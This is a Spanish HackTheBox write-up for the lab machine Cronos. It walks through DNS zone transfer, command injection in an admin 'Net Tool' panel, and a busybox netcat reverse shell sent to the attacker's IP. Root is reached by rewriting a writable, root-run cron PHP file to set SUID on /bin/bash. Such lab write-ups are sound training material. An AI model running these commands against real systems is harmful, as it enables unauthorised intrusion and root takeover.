---

# Descripcion

Cronos es una máquina Linux de dificultad Media en HackTheBox que expone SSH (22), DNS (53) y HTTP (80). Un AXFR Zone Transfer revela el subdominio oculto admin.cronos.htb, cuyo panel "Net Tool" es vulnerable a inyección de comandos, otorgando una reverse shell como www-data. Dentro se hallan credenciales de MySQL y el usuario noulis. La escalada a root abusa de una tarea cron que ejecuta el binario artisan como root, pero es escribible por www-data, permitiendo inyectar código PHP para establecer el bit `SUID` en `/bin/bash`.

---

# Enumeracion

## Nmap

> Comenzamos realizando un escaneo completo de puertos TCP para identificar los servicios expuestos en la máquina.

```bash
nmap -p- --open --min-rate 5000 -Pn -n -sS -v 10.129.227.211
```



> Una vez identificados los puertos abiertos, realizamos un segundo escaneo utilizando los scripts predeterminados de Nmap y la detección de versiones para obtener más información sobre los servicios.

```bash
nmap -p22,53,80 -sC -sV 10.129.227.211
```




## Web

> Comenzamos identificando las tecnologías utilizadas por la aplicación mediante `WhatWeb`.


```bash
whatweb http://cronos.htb
```



- **Web**



> Como observamos que el servicio DNS está abierto, vamos a probar a realizar un `AXFR Zone Transfer` para comprobar si existen `subdominios` activos. Para ello utilizaremos `dig`.

```bash
dig axfr @10.129.227.211 cronos.htb
```



> Encontramos 3 subdominios, así que vamos a añadirlos a nuestro `/etc/hosts`.

- Vamos a `admin`



- Enumeramos con `nmap`



- Enumeramos directorios con `gobuster`
```bash
gobuster dir -u http://admin.cronos.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 50 -x txt,php
```



# Shell como www-data

## RCE

> Vemos que `welcome.php` nos entrega algo de información antes de redirigirnos a `index.php`. Vamos a revisarlo con Burp Suite.



- Código `HTML`
```html
<html">
   
   <head>
      <title>Net Tool v0.1 </title>
   </head>
   
   <body>
	<h1>Net Tool v0.1</h1>
	<form method="POST" action="">
	<select name="command">
		<option value="traceroute">traceroute</option>
		<option value="ping -c 1">ping</option>
	</select>
	<input type="text" name="host" value="8.8.8.8"/>
	<input type="submit" value="Execute!"/>
	</form>
	      <p><a href = "logout.php">Sign Out</a></p>
   </body>
   
</html>
```

> Parece que nos permite ver un panel donde podemos enviar dos comandos, `traceroute` y `ping`. Vamos a intentar realizar una petición `POST` para comprobar si se ejecuta correctamente. Para ello, nos enviaremos un ping.

- Vemos paquetes con `tcpdump`
```bash
sudo tcpdump -i tun0 icmp
```

- Enviamos `ping`



- Lo recibimos



> Bien, ahora vamos a probar si al cambiar el comando podemos ejecutar otros además de `ping` y `traceroute`. Probamos con un `curl`.

- Abrimos servidor web
```bash
python3 -m http.server 80
```

- Mandamos petición



- Recibimos correctamente



> Parece que podemos ejecutar comandos, así que vamos a enviarnos una `RCE`.

- Escuchamos por `nc`
```bash
nc -nvlp 7777
```

- Mandamos petición
```bash
busybox nc 10.10.14.154 7777 -e /bin/bash
```



- Recibimos la shell



# Shell como root

## Enumeracion

> Si listamos el directorio en el que nos encontramos, vemos que estamos justo en los archivos de la página web.



> Leemos `config.php`



> Obtenemos las credenciales para la `BBDD`.

```text
user: admin
pass: kEjdbRigfBHUREiNSDs
```

> Vemos qué puertos tiene abiertos la máquina.

```bash
netstat -tunl
```



> El puerto de `mysql` está abierto. Antes de entrar a la base de datos, vamos a listar los usuarios de la máquina.

```bash
ls -la /home
cat /etc/passwd | grep "sh"
```



> Existe un usuario llamado `noulis`. Ahora vamos a entrar en la base de datos para ver si existe alguna información relevante para ese usuario.

## BBDD

```bash
mysql -u admin -p
```



- Listamos las bases de datos
```sql
show databases;
```



- Seleccionamos la de `admin`
```sql
use admin;
```

- Mostramos las tablas
```sql
show tables;
```



- Buscamos todo el contenido de `users`
```sql
select * from users;
```



```text
4f5fffa7b2340178a716e3832451e058
```

> Vemos un usuario `admin` con una contraseña en `MD5`. Vamos a intentar crackearla con `john`, guardándola en nuestra máquina en un archivo `hash.txt`.

```bash
sudo john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

> Pero ni `john` ni `hashcat` encuentran la contraseña, así que es posible que no sea el camino correcto. Si vamos a `/home/noulis`, podemos entrar y ver la flag en `user.txt`.



> Vemos el archivo de configuración de `crontab`.

```bash
cat /etc/crontab
```



## Comprometiendo artisan

> El usuario `root` está ejecutando ese archivo `php`. Vamos a ver qué contiene.

- `artisan`
```php
#!/usr/bin/env php
<?php

/*
|--------------------------------------------------------------------------
| Register The Auto Loader
|--------------------------------------------------------------------------
|
| Composer provides a convenient, automatically generated class loader
| for our application. We just need to utilize it! We'll require it
| into the script here so that we do not have to worry about the
| loading of any our classes "manually". Feels great to relax.
|
*/

require __DIR__.'/bootstrap/autoload.php';

$app = require_once __DIR__.'/bootstrap/app.php';

/*
|--------------------------------------------------------------------------
| Run The Artisan Application
|--------------------------------------------------------------------------
|
| When we run the console application, the current CLI command will be
| executed in this console and the response sent back to a terminal
| or another output device for the developers. Here goes nothing!
|
*/

$kernel = $app->make(Illuminate\Contracts\Console\Kernel::class);

$status = $kernel->handle(
    $input = new Symfony\Component\Console\Input\ArgvInput,
    new Symfony\Component\Console\Output\ConsoleOutput
);

/*
|--------------------------------------------------------------------------
| Shutdown The Application
|--------------------------------------------------------------------------
|
| Once Artisan has finished running. We will fire off the shutdown events
| so that any final work may be done by the application before we shut
| down the process. This is the last thing to happen by the request.
|
*/

$kernel->terminate($input, $status);
```

- Miramos los permisos del archivo



> Vemos que tenemos permisos de escritura, así que vamos a cambiar el `php` que contiene por uno modificado por nosotros para que ejecute código malicioso. Este lo que hará será añadir permisos `SUID` al `/bin/bash`.

- Vemos permisos de `/bin/bash`
```bash
ls -la /bin/bash
```



- Modificamos `artisan`
```php
#!/usr/bin/env php
<?php
	system('chmod +s /bin/bash');
?>
```

- Esperamos 1 minuto y volvemos a ver los permisos



> Tenemos permisos `SUID` en la `bash`. Ahora podemos ejecutarla y obtener una `shell` como `root`.

```bash
bash -p
```

